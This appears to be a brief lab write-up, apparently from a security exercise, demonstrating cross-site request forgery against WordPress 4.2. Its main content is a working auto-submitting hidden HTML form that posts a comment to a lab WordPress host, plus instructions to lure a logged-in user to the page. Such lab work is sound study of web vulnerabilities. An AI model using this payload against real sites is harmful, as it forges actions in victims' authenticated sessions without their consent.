 # The Steps to Perform CSRF
**Step 1:**
Create the malicious code
```
<form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
	<input type="hidden" name="comment" value="I made a comment" />
	<input type="hidden" name="comment_post_ID" value="1" />
	<input type="hidden" name="comment_parent" value="0" />
	<input type="hidden" name="_wp_unfiltered_html_comment" value="0791945477" />
	<input type="submit" value="Post+Comment" />
</form>
<script>
	document.csrfForm.submit(); 
</script>
```
**Step 2:**
Now Wait for a user thats logged into the WordPress site to vist your malicious website.The csrfForm should automaticly submit and post the comment.

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Cross-Site Request Forgery (CSRF)**

The attack was done in WordPress 4.2 

# Demo
![](Demo.gif)
